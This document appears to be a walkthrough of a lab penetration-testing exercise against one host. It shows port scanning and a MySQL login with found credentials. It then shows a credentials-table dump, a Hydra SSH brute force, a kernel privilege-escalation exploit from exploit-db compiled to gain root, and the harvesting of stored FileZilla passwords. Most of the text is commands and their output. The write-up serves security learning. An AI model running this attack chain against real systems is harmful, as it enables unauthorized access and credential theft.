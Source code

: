 ## NMAP

```
nmap -sCV -p- -A -T4 10.10.110.10
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-10 08:35 PDT
Nmap scan report for 10.10.110.10
Host is up (0.076s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 b3299b8297012b5f6e4191f8439ee785 (DSA)
|   2048 1316c334ff04546a1f5d469d5b44a988 (RSA)
|_  256 90ba2ce7d53135ddd0c91911d5a7a09c (ECDSA)
3306/tcp open  mysql   MySQL 5.5.62-0ubuntu0.14.04.1
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.62-0ubuntu0.14.04.1
|   Thread ID: 104
|   Capabilities flags: 63487
|   Some Capabilities: ConnectWithDatabase, LongColumnFlag, FoundRows, InteractiveClient, Speaks41ProtocolNew, Support41Auth, LongPassword, Speaks41ProtocolOld, SupportsTransactions, IgnoreSpaceBeforeParenthesis, IgnoreSigpipes, ODBCClient, SupportsCompression, SupportsLoadDataLocal, DontAllowDatabaseTableColumn, SupportsAuthPlugins, SupportsMultipleStatments, SupportsMultipleResults
|   Status: Autocommit
|   Salt: v1,))0VB(AK9wpMkVN`y
|_  Auth Plugin Name: mysql_native_password
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 123.30 seconds
```

Using the credentials we found from ares.htb

## MySQL
```
 mysql -u root -psbtR5t7cq7PWE3AJ -h 10.10.110.10
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 113
Server version: 5.5.62-0ubuntu0.14.04.1 (Ubuntu)

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]> 
```
MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| users              |
+--------------------+
4 rows in set (0.125 sec)

MySQL [(none)]> use users;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MySQL [users]> show tables;
+-----------------+
| Tables_in_users |
+-----------------+
| credentials     |
+-----------------+
1 row in set (0.077 sec)

MySQL [users]> show columns from credentials;
+----------+-------------+------+-----+---------+-------+
| Field    | Type        | Null | Key | Default | Extra |
+----------+-------------+------+-----+---------+-------+
| name     | varchar(20) | YES  |     | NULL    |       |
| password | varchar(20) | YES  |     | NULL    |       |
+----------+-------------+------+-----+---------+-------+
2 rows in set (0.077 sec)

MySQL [users]> select * from credentials;
+-----------+--------------------+
| name      | password           |
+-----------+--------------------+
| mrb3n     | offshorerox!       |
| egre55    | HADES_FTW123       |
| MinatoTW  | Breakpoint_P41N    |
| soti      | ThinkOUTSIDEtheBOX |
| g0blin    | Holiday666         |
| Mr_R3b00t | BURP_GOES_BRRRR!!  |
+-----------+--------------------+
6 rows in set (0.076 sec)

MySQL [users]> Ctrl-C -- exit!
Aborted
```
Lets run this list against hydra

## Hydra
```
hydra -L users.txt -P passwords.txt 10.10.110.10 ssh -v -t 64

```
```
[22][ssh] host: 10.10.110.10   login: soti   password: ThinkOUTSIDEtheBOX
```
## SSH
```
ssh soti@10.10.110.10
The authenticity of host '10.10.110.10 (10.10.110.10)' can't be established.
ECDSA key fingerprint is SHA256:lrQib72+g9RFbL/l6a1NZLf15aM0ebjCKdPUoLWvrzg.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.110.10' (ECDSA) to the list of known hosts.
soti@10.10.110.10's password: 
Welcome to Ubuntu 14.04.6 LTS (GNU/Linux 3.13.0-54-generic x86_64)

 * Documentation:  https://help.ubuntu.com/
soti@SQL02-Hephaestus:~$ 
```
## linpeas
```
                               ╔═══════════════════╗
═══════════════════════════════╣ Basic information ╠═══════════════════════════════
                               ╚═══════════════════╝
OS: Linux version 3.13.0-54-generic (buildd@allspice) (gcc version 4.8.2 (Ubuntu 4.8.2-19ubuntu1) ) #91-Ubuntu SMP Tue May 26 19:15:08 UTC 2015
User & Groups: uid=1000(soti) gid=1000(soti) groups=1000(soti),24(cdrom),30(dip),46(plugdev),109(lpadmin),124(sambashare)
Hostname: SQL02-Hephaestus
Writable folder: /run/shm
[+] /bin/ping is available for network discovery (linpeas can discover hosts, learn more with -h)
[+] /bin/bash is available for network discovery, port scanning and port forwarding (linpeas can discover hosts, scan ports, and forward ports. Learn more with -h)
[+] /bin/nc is available for network discovery & port scanning (linpeas can discover hosts and scan ports, learn more with -h)



Caching directories . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . DONE

                              ╔════════════════════╗
══════════════════════════════╣ System Information ╠══════════════════════════════
                              ╚════════════════════╝
╔══════════╣ Operative system
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#kernel-exploits
Linux version 3.13.0-54-generic (buildd@allspice) (gcc version 4.8.2 (Ubuntu 4.8.2-19ubuntu1) ) #91-Ubuntu SMP Tue May 26 19:15:08 UTC 2015
Distributor ID:	Ubuntu
Description:	Ubuntu 14.04.6 LTS
Release:	14.04
Codename:	trusty

```
Exploit

https://www.exploit-db.com/exploits/37292

```
soti@SQL02-Hephaestus:/tmp$ nano ofs.c
soti@SQL02-Hephaestus:/tmp$ gcc ofs.c -o ofs
soti@SQL02-Hephaestus:/tmp$ ./ofs 
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# whoami
root

## Further Enumeration

I saw that filezilla was running on a few profiles

```
root@SQL02-Hephaestus:/home/fred/.filezilla# cat sitemanager.xml 
<?xml version="1.0" encoding="UTF-8" standalone="yes" ?>
<FileZilla3>
    <Servers>
        <Server>
            <Host>10.10.110.12</Host>
            <Port>21</Port>
            <Protocol>0</Protocol>
            <Type>0</Type>
            <User>fred</User>
            <Pass>fr3dS_Str0ng_p@ss</Pass>
            <Logontype>1</Logontype>
            <TimezoneOffset>0</TimezoneOffset>
            <PasvMode>MODE_DEFAULT</PasvMode>
            <MaximumMultipleConnections>0</MaximumMultipleConnections>
            <EncodingType>Auto</EncodingType>
            <BypassProxy>0</BypassProxy>
            <Name>FTP01</Name>
            <Comments></Comments>
            <LocalDir></LocalDir>
            <RemoteDir></RemoteDir>
            <SyncBrowsing>0</SyncBrowsing>FTP01
        </Server>
    </Servers>
</FileZilla3>
```

















